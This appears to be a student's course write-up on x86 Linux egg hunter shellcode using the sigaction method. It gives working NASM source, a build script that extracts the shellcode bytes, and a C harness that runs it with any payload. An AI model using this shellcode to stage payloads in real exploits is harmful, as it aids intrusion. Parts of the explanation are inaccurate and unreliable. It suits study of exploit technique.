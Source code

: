 # Assignment 3

## What to do:

-Study about the Egg Hunter shellcode

-Create a working demo of the Egghunter

-Should be configurable for different payloads

## Solutions:

1) Study about the Egg Hunter of the shellcode: 

All the information used to solve this section was found at [Safely Searching Process Virtual Address Space].

First of all, what is an Egg Hunter?

As it is said in the paper, is a virtual address space where we can inject the code/payload in the current process. The egg is the marker that helps the payload to be located by the exploit. In this case, the sigaction method is the one selected to be implemented.

### Sigaction implementation

Nasm code given as a reproduction of the Egg Hunter using this technique:

        00000000  6681C9FF0F        or cx,0xfff
        00000005  41                inc ecx
        00000006  6A43              push byte +0x43
        00000008  58                pop eax
        00000009  CD80              int 0x80
        0000000B  3CF2              cmp al,0xf2
        0000000D  74F1              jz 0x0
        0000000F  B890509050        mov eax,0x50905090
        00000014  89CF              mov edi,ecx
        00000016  AF                scasd
        00000017  75EC              jnz 0x5
        00000019  AF                scasd
        0000001A  75E9              jnz 0x5
        0000001C  FFE7              jmp edi


2) Create the nasm code that will reproduce the eggcode.

Now that we know the exact structure for the egg hunter, we need to create the nasm code. Using this schema, here is the final code.

        global _start 

        section .text

        _start: 

        alignment:  
                or cx,0xfff         ; Page alignment

        search_shell:  
                inc ecx             ; Increment our page alignment (space "created" where the shellcode will be executed)
                push byte +0x43     ; Sigaction syscall (0x43 = 67 decimal)
                pop eax             ; eax=67
                int 0x80            ; Syscall sigaction

                cmp al,0xf2         ; If al is 242 (0xf2), then there is a sigaction error and egg hunter can not be executed
                jz alignment        ; The code keeps jumping to alignment until the comparison is set to False (searchs the egghunter)
                mov eax, 0x7A6EA1A2 ; Here is the eggcode
                mov edi, ecx        ; Moves ecx to edi (pointer to the shellcode)
                scasd   	    ; Compares (double word) eax with edi 
                jnz search_shell    ; If it did not match try the next address
                scasd
                jnz search_shell
                jmp edi             ; We found our egg identifier, pass execution

After that, we must compile the code using compile.sh. This bash script will do the following:

   2.1) Assembly and link the nasm code:

        echo '[+] Assembling with Nasm ... '
        nasm -f elf32 -o Egg_Hunter.o Egg_Hunter.nasm

        echo '[+] Linking ...'
        ld -o Egg_Hunter Egg_Hunter.o

        echo '[+] Done!'
   2.2) Obtain the shellcode from the binary created:

        objdump=$(objdump -d ./Egg_Hunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g')

   2.3) Inject the output of objdump to the shellcode.c:

        replace "shellcode" "$objdump" -- shellcode.c &>/dev/null #Replace shellcode dump
   2.4) Compile the shellcode and execute it

        gcc -fno-stack-protector -z execstack shellcode.c -o shellcode &>/dev/null #Compile and execute the shellcode
     
3) Should be configurable for different payloads:   

As it should be configurable to different payloads, we need to modify the original shellcode script. This is the key part of the script:

        unsigned char egg_code[] = "shellcode" //Shellcode is replace with the content of objdump
        unsigned char payload[] = "eggcode+eggcode+Shellcode" //eggcode is the "egg/mark" injected into the nasm code.

        main()
        {
                printf("Eggcode Length:  %d\n", strlen(egg_code));
                printf("Payload Length:  %d\n", strlen(payload));

                int (*ret)() = (int(*)())egg_code;

                ret();

        }

